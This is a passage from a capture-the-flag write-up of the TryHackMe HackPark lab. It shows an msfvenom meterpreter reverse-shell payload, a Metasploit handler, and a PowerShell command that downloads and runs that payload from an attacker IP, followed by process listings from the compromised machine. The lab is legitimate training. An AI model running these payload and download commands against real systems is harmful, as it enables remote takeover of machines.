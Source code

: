   Now that we have our reverse shell lets upgrade it to a full reverse shell.

   To best do that, lets use MSF again. Using `msfvenom` we can quickly create reverse handlers
   with hosts and ports baked in.
   To do that we setup
   `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[vpnIP] LPORT=[LPORT] -f exe > reverse.exe`

   Now that we have that lets setup a meterpreter handler in another terminal to accept it.

   Loading up `msfconsole` and  run `use exploit/multi/handler`

   Set the correct options for your machine ( by using `options` then `set [option]` for required) then go back to the cmd shell, move over to the `C:\Windows\temp` to copy over your reverse_tcp shell exe and run it.

   `powershell Invoke-WebRequest -Uri http://10.8.30.155:1337/reverse.exe -Outfile reverse.exe`

   run it by just typing `reverse.exe` and you should see it come into your meterpreter terminal
   See what session it is with `sessions -l` then take control with `sessions -i [id]` to take over that shell.

   We can see by running the meterpreter command `sysinfo` we get certain information.
   ```
   meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
   ```
   running `ps` to see what processes are running.
   ```
   meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User              Path
 ---   ----  ----                  ----  -------  ----              ----
 0     0     [System Process]                                       
 4     0     System                                                 
 348   672   svchost.exe                                            
 352   672   TrustedInstaller.exe                                   
 380   4     smss.exe                                               
 524   516   csrss.exe                                              
 580   572   csrss.exe                                              
 588   516   wininit.exe                                            
 616   572   winlogon.exe                                           
 672   588   services.exe                                           
 680   588   lsass.exe                                              
 740   672   svchost.exe                                            
 784   672   svchost.exe                                            
 856   740   WmiPrvSE.exe                                           
 868   672   svchost.exe                                            
 884   616   dwm.exe                                                
 892   2648  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 912   672   svchost.exe                                            
 944   672   svchost.exe                                            
 996   672   svchost.exe                                            
 1140  672   spoolsv.exe                                            
 1168  672   amazon-ssm-agent.exe                                   
 1204  740   TiWorker.exe                                           
 1212  672   svchost.exe                                            
 1228  672   LiteAgent.exe                                          
 1304  672   svchost.exe                                            
   ```

[1]: https://tryhackme.com/room/hackpark
[2]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_web80.png
[3]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_aspxlogin80.png
[4]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_adminabout80.png
[5]: https://www.exploit-db.com/exploits/46353
[6]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_filebutton80.png
[7]: ./resources/hackpack_winexploit_suggestions.txt
[8]: https://www.exploit-db.com/exploits/45072
